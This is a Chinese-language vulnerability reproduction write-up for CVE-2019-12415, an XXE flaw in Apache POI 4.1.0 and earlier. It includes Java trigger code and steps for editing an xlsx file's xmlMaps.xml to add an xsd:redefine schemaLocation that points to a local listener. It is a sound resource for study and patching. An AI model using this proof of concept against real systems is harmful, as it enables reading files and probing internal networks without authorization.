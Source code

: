 # CVE-2019-12415 Apache POI <= 4.1.0 XXE漏洞

### 一、漏洞简介

**什么是POI**

Apache POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft Office格式档案读和写的功能。

**关于CVE-2019-12415**

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1 XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 `XSSFExportToXml#isValid` 方法里，如果 `XSSFExportToXml#exportToXML`方法的第三个参数为true逐步进入 isValid触发XXE。

![](images/15889399227177.png)


### 二、漏洞影响

Apache POI<=4.1.0

### 三、复现过程


```bash
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}
```

然后下载这个xlsx文件。


```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 xsd:schema 标签里面加上一行代码。


```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>
```

![](images/15889399670672.png)


然后把xlsx释放出来的所有文件再用zip打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。

![](images/15889399756022.png)


